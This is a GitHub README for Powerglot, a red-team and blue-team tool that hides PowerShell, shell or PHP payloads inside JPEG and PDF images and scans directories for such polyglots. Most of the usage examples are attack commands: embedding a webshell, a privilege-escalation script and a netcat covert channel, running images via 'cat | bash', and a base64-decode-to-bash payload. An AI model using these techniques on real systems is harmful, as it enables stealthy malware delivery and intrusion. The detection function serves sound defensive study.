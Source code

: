# Powerglot

Powerglot encodes several kind of scripts using polyglots, for example, offensive powershell scripts. It is not needed a loader to run the payload.

In red-team exercises or offensive tasks, masking of payloads is usually done by using steganography, especially to avoid network level protections, being one of the most common payloads scripts developed in powershell. Recent malware and APTs make use of some of these capabilities: APT32, APT37, Ursnif, Powload, LightNeuron/Turla, Platinum APT, Waterbug/Turla, Lokibot, The dukes (operation Ghost), Titanium, etc.

Powerglot is a multifunctional and multi-platform attack and defense tool based on polyglots. Powerglot allows to mask a script (powershell, shellscripting, php, ...) mainly in a digital image, although other file formats are in progress. Unlike the usual offensive tools or malware, Powerglot does not need any loader to execute the "information hidden", minimizing the noise on the target system.

PowerGlot has a clear utility in offensive tasks but it is also defined as a discovery and blue team tool. To our knowledge, it is the first general and complete open-source tool that allows to search for the presence of masked information with polyglots, information that could be useful to achieve persistence in a system or to hide malware (stego-malware, privilege escalation, lateral movement, reverse shell, etc.)

Features:
- Encode powershell/shell script/php/.. in a polyglot image. It is not necessary a loader to recover/execute the hidden information (payload). PowerGlot works with several formats. Mainly, JPEG and PDF format. Other formats are in progress.

- Powerglot is a complete open-source tool to detect (malicious) polyglots, specially the result of some public tools as Truepolyglot or stegoSploit. We works in several formats: JPEG, PNG, GIF, BMP, ZIP, PDF, MP3, etc.

# Installation
```
# git clone https://github.com/mindcrypt/powerglot
# python3 powerglot
```
# Usage & Parameters

Some examples to hide payloads using polyglots with Powerglot
```
# Example 1 - Hiding a powershell/php/shell script in a JPEG image

# python3 powerglot.py -o payload.ps1 cat.jpg cat-hidden1.jpg
# python3 powerglot.py -o webshell.php cat.jpg cat-hidden2.jpg
# python3 powerglot.py -o shell.sh cat.jpg cat-hidden3.jpg
```
```
# Example 2 - Hiding a shell script (linenum.sh) for privilege escalation "hidden" in a JPEG image

# python3 powerglot.py -o linenum.sh cat.jpg cat-linenum.jpg
# file cat-linenum.jpg (It is a valid JPEG file)
# feh cat-lineum.jpg (The image is properly showed in an image viewer)

# We can execute the script in several ways:

a) cat cat-linenum | bash
b) chmod +x cat-linenum.jpeg; ./cat-linenum.jpeg

```
```
# Example 3 - Hiding a cover-channel wiht netcat in a JPEG image

# Attacker
# echo "nc 127.0.0.1 4444" > netcat.sh
# python3 powerglot.py -o netcat.sh cat.jpeg cat-netcat.jpeg
# nc -nvlp 4444

#Victim
# chmod +x cat-netcat.jpg | ./cat-netcat.jpg

![alt text](https://github.com/mindcrypt/powerglot/blob/master/nc-polyglot.png)
```
```
# Example 4 - Polyglot in PDF (Ej-linenum.sh)
# Create b64.sh with your favourite payload
base64 Linenum.sh -w 0 > b64.sh
# Edit b64.sh
echo "code in b64.sh" | base64 -d | bash;

# python3 powerglot -o b64.sh sample.pdf test.pdf
# file test.pdf
# xpdf test.pdf

# Execute payload
# cat test.pdf | bash or chmod +x test.pdf; ./test.pdf
```
```
# Example 5 - Powershell in JPEG (polyglot)
# python3 powerglot.py -o script.ps1 cat.jpeg cat-ps.jpeg
# file cat-ps.jpeg
# feh cat-ps.jpeg

# Execute payload (example)
# cat cat-ps.jpeg | pwsh

PS /home/alfonso/PowerGlot/POWERSHELL> get-process;<#hola <# mundo#>

 NPM(K)    PM(M)      WS(M)     CPU(s)      Id  SI ProcessName
 ------    -----      -----     ------      --  -- -----------
      0     0,00       2,70       0,00     830 829 (sd-pam)
      0     0,00       0,00       0,00      75   0 acpi_thermal_pm
      0     0,00       4,80       0,00    1217 854 agent
      0     0,00       1,70       0,00     748 748 agetty
      0     0,00      40,77       1,01    1198 854 applet.py
      0     0,00       6,29       0,00     938 938 at-spi-bus-launcher
      0     0,00       6,61       5,64     953 938 at-spi2-registryd
      0     0,00       0,00       0,00     131   0 ata_sff
      0     0,00       1,77       0,00    8906 …78 atom
      0     0,00     218,81     585,95    8908 …78 atom
      0     0,00     236,18     176,24    8947 …78 atom
      0     0,00     142,14       2,51    9009 …78 atom
      0     0,00      81,54       3,32    8932 …78 atom --type=gpu-process --enable-features=SharedArrayBuffer -…
      0     0,00      39,44       0,01    8910 …78 atom --type=zygote --no-sandbox
      0     0,00       5,62       0,11    1370 …70 bash
      0     0,00       5,36       0,66    5278 …78 bash
      0     0,00       6,34       1,48    6778 …78 bash
      0     0,00       0,00       0,00      68   0 blkcg_punt_bio
      0     0,00      46,73       2,20    1199 854 blueman-applet
      0     0,00      50,25       1,64    1301 854 blueman-tray
```
Some examples to detect polyglots in our filesystem
```
#python3 powerglot.py -d ./
--= [Detecting polyglots] --=
..............................................................
[Suspicious file]-[ ./cat-end-extra2.jpg ]..
[Suspicious file]-[ ./cat-end-extra3.jpg ][Polyglot Stegosploit][EOF Signature: */ -->]
.................................................................................
[Suspicious file]-[ ./cat-end-extra1.jpg ]..
```

# Future work. Doing
- We are working to support different file formats for encoding information in polyglots. Currently, we support several techniques in JPEG and PDF.
- We are working to incorporate rules for the detection of polyglots in different formats. Currently, the presence of StegoSploit in JPEG files is detected (added */ --> after FFD9)

# Author & license

This project has been developed by Dr. Alfonso Muñoz and Abraham Pasamar. The code is released under the GNU General Public License v3.



